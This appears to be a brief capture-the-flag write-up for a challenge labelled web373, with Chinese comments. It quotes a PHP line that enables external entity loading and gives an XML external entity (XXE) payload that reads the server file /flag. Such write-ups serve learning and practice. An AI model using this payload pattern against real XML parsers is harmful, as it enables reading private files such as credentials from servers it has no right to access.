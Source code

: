# web373
![](vx_images/571644809876512.png)
```
libxml_disable_entity_loader(false);// 允许外部实体的加载
```
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE payload [
<!ENTITY payload SYSTEM "file:///flag">//这里flag后不加后缀
]>
<web373>
<ctfshow>&payload;</ctfshow>
</web373>
```